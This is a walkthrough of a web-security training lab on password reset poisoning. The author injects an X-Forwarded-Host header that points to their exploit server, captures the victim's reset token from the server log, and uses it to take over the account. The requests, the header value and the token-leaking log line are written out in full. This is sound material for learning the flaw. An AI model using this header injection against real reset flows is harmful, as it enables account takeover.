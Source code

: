 # Lab: Password reset poisoning via middleware

>This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. 

>You can log in to your own account using the following credentials: wiener:peter. 

>Any emails sent to this account can be read via the email client on the exploit server.

### First Step
Resetting the password sends the following link to the email client:

`https://acdd1f941f1fc3a8c08946a8003100cb.web-security-academy.net/forgot-password?temp-forgot-password-token=K1FH957iVoipNlSw7IfKDPJbty4Us4fI`

If we could get the token for `carlos`, then maybe we can reset his password? Everything else in the link looks "constant" / static to me

### Vulnerable Request
After clicking on the link that I was sent, I got a request with the following:

`GET /forgot-password?temp-forgot-password-token=K1FH957iVoipNlSw7IfKDPJbty4Us4fI`

This is the page where I can reset my password, and where the token is first seen in the request

Also worth noting, the password reset link is sent right after `POST /forgot-password`... I modified these parts of the request to send a password reset request for carlos:

`X-Forwarded-Host: exploit-ac791f441fb1c339c025469f01650091.web-security-academy.net

username=carlos`

I learned that `X-Forwarded-Host` forwards the request to another place (my exploit server in this case). I can see that a request was made to my exploit server:

`172.31.31.195   2021-12-29 23:56:47 +0000 "GET /forgot-password?temp-forgot-password-token=4Aqf0ogEZrEWxik8hMa1sCLNpa9PDj2t HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"`

Looks like the header sends the result of `POST /forgot-password` to my exploit server, which is why we recieve a GET request

### Solution
Now I can plug in carlos' token into the password reset link and change his password myself. Log in with the newly set credentials and the lab is solved!

`https://acdd1f941f1fc3a8c08946a8003100cb.web-security-academy.net/forgot-password?temp-forgot-password-token=4Aqf0ogEZrEWxik8hMa1sCLNpa9PDj2t`